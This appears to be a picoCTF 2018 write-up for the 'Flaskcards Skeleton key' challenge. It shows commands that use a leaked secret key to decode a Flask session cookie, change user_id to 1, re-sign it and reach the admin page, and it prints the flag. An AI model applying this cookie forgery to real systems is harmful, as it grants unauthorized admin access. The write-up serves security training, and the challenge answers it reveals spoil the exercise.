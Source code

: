 ```yaml
---
layout: writeup
title: 'Web Exploitation 600: Flaskcards Skeleton key'
level: 
difficulty: 
points: 
categories: []
tags: []
flag: picoCTF{1_id_to_rule_them_all_d77c1ed6}
---
```

## Challenge

Nice! You found out they were sending the Secret\_key:
`385c16dd09098b011d0086f9e218a0a2`.  
Now, can you find a way to log in as admin?
http://2018shell1.picoctf.com:48263

## Solution

We find our session cookie

    .eJwlj8uKwzAMAP_F5xxsvSL3Z4JsSWwp7ELSnkr_vYa9z8DMuxx5xvVTbs_zFVs57l5uxRwDe6Vahcl2Ms0KXMUoh6I7IgE0HcSufYoKx0DHXcOYwKlPlkRAi-GZqYCcjEkBOVO7GUwOttaWbHtomzarTfLWxapj2cq8zjyef4_4XT0LVhBpwIyqMnqb3HRXRKUBoqQ-Vkwu73XF-T_Ravl8Aa_JPmw.DrIbMQ.mLvNGriozmsC4ufO9lqGP44D340

and learn a bit about how flask deals with session cookies:

* https://www.kirsle.net/wizards/flask-session.cgi
* https://stackoverflow.com/questions/22463939/demystify-flask-app-secret-key#22463969
* https://pythonhosted.org/itsdangerous/

We also find [this tool][1] to help us (also in this repo
[here](writeupfiles/flask_session_cookie_manager.py))

We use this to decode our existing cookie:

    $ python flask_session_cookie_manager.py decode -c '.eJwlj8uKwzAMAP_F5xxsvSL3Z4JsSWwp7ELSnkr_vYa9z8DMuxx5xvVTbs_zFVs57l5uxRwDe6Vahcl2Ms0KXMUoh6I7IgE0HcSufYoKx0DHXcOYwKlPlkRAi-GZqYCcjEkBOVO7GUwOttaWbHtomzarTfLWxapj2cq8zjyef4_4XT0LVhBpwIyqMnqb3HRXRKUBoqQ-Vkwu73XF-T_Ravl8Aa_JPmw.DrIbMQ.mLvNGriozmsC4ufO9lqGP44D340
    '
    {"_fresh":true,"_id":"ad3e390400654a74a8f02506a4fb83dd3342218b45d89c6865eb3d378ea542d49c56f323aebdfff8235f53f4e2fcf89aa2c5e5a119c6a7e81cac0ac4d196a0d3","csrf_token":"5e5826612553886b91c518783384b26848dbb45f","user_id":"10"}
{: .language-bash}

Then change the `user_id` to `1` and encode it using our secret key:

    $ python flask_session_cookie_manager.py encode -s '385c16dd09098b011d0086f9e218a0a2' -t '{"_fresh":True,"_id":"ad3e390400654a74a8f02506a4fb83dd3342218b45d89c6865eb3d378ea542d49c56f323aebdfff8235f53f4e2fcf89aa2c5e5a119c6a7e81cac0ac4d196a0d3","csrf_token":"5e5826612553886b91c518783384b26848dbb45f","user_id":"1"}'
    .eJxNUM-LgkAU_leWOXdIVy9Ch2BmxeC9wRiTNxdhzcyn04IV5UT_-1qHZQ_f5YPv50NUh7E5H0VyGa_NQlTdXiQP8fEtEkFl7q2BGGR-A0kBpupzRmR5PaFZh2S2jrj1Ns09-HwCVhFxHljZxuQpQt4NxNiDryNbqgDlpkc5MBrrwGeeyl1nU-sstxP4nUODDtNisg6dlsORzIaxLAIy6q5LmPP2g5ZfTCXcZiytVDE6dbMSVuK5EPV5PFSXn745_U14ybXMQmQ1Vy68lm1I3N_JF3ct6wg8RJhmE3K71Om2e9dvV2-767kZ_98B-Yt__gJ85WQf.W9GuEQ.aDVMvmgmVLaXgfOrCbP6QnJCppQ
{: .language-bash}

we set our cookie in the browser and find the flag on the admin page:

![](writeupfiles/flaskcards_admin.png)



[1]: https://github.com/noraj/flask-session-cookie-manager
